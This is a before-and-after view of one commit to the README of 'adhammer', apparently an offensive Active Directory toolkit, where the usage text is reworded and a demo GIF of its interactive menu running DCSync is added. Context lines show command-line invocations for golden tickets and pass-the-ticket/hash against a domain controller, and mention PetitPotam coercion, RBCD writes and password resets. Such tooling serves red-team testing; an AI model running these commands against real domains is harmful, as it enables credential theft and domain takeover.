

Before and after one commit to icedracon/adhammer, a Markdown page: README.md, the part around the change. GitHub-like rendering; pictures changed too: docs/interactive.gif (added); blank space fills up the shorter version.

Commit message:
docs: add interactive-menu demo GIF
docs/interactive.gif — a vhs recording of the no-arg TUI: pick DCSync from the
21-action menu, dump krbtgt live against the DC, return to the menu. Corrects the
usage text to describe the guided prompts accurately.

````diff
--- a/README.md
+++ b/README.md
@@ -89,9 +89,10 @@ adhammer attack golden --kdc dc.corp.local --realm CORP.LOCAL --krbtgt-aes256 <6
 adhammer attack pth    --host dc.corp.local --realm CORP.LOCAL --krbtgt-aes256 <64-hex> --domain-sid S-1-5-21-a-b-c --spn cifs/dc.corp.local --command whoami
 ```
 
-Prefer the interactive menu — `adhammer` with no args — for golden/silver/pass-the-ticket: it
-auto-fetches the krbtgt/service key (DCSync) and the domain SID (LSAT) from your session, so you
-never paste a key or SID by hand.
+Or just run `adhammer` with no arguments for the **guided interactive menu** — it saves your
+session and walks you through every one of the 21 actions with prompts:
+
+![ADhammer interactive menu: pick an action, run DCSync against the DC, back to the full menu](docs/interactive.gif)
 
 `attack abuse` also does `add-spn` (targeted Kerberoast), `add-member`, `set-password`, and
 `write-rbcd`. `attack coerce` is PetitPotam / MS-EFSR.
````
